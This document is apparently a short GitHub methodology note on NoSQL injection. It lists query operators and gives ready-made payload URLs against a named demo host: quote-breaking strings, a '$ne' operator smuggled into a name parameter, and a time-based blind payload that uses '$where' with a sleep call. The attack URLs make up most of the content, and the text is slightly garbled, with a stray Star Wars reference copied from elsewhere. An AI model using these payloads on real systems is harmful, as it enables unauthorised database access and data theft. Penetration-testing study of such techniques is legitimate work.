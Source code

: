 # NoSQL Injection methodology 

# NoSQL Operators 

```
$ne — not equal
$gt — greater than
$regex — regular expression
$where — clause lets you specify a script to filter results
```



# NoSQL Union Query Injection

Let try to provoke an error by submitting a string accompanied by the single quote (') character, we will come across the following
```
https://demo-campass.obih.sg/name=TestUser1'
https://demo-campass.obih.sg/name=TestUser3
https://demo-campass.obih.sg/name=Testuser3', 'address': 'WestJurong
https://demo-campass.obih.sg/name=TestUser3',name:{$ne:'A'},address:'WestJurong
```





# Blind NoSQL Injection
Suppose that the database returned no results in the browser, regardless of us submitting an included Star Wars character or not. So, we are talking about a “blind” 
```
https://demo-campass.obih.sg/?name=A',$where: 'function(){sleep(20000);}'}
https://demo-campass.obih.sg/?name=A,$where: 'function(){sleep(20000);}'}
```
